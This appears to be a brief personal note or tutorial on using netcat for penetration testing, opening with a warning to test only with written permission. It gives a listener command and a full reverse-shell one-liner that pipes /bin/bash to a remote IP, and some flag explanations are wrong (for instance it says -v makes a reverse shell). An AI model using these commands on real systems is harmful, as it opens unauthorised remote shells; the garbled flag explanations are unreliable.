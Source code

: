```yaml
---
title: use netcat for pentesting
date: 2022-11-07
---
```


## Warning! Use for pentesting only, and only with targets that you have a written get out of jail free card and/or written permission for.

### listen for a connection:
> (you could i.e. use this in a script and get a webrequest with a special agent using curl and then make a cronjob out of grepping the nginx acces log associated with your vhost, which shows the ip, then you try to connect.)

```sh
nc -lv 1203
```

explaination: nc is the command to call our program; netcat. -lv implies that we want to listen for shells; 1203 is the port we will use to listen for shells

### open connection on remote host:

```sh
nc -v 10.0.0.1 1203 -e /bin/bash
```

explaination: nc is the command to call our program; netcat once again. -v tells it that we want to make a reverse shell; 10.0.0.1 is the ip of the listener (the above command); 1203 is once again the port to connect to. /bin/bash is the program to execute, in this case a shell, but you can alo pipe output of a program or file to the reverse shell
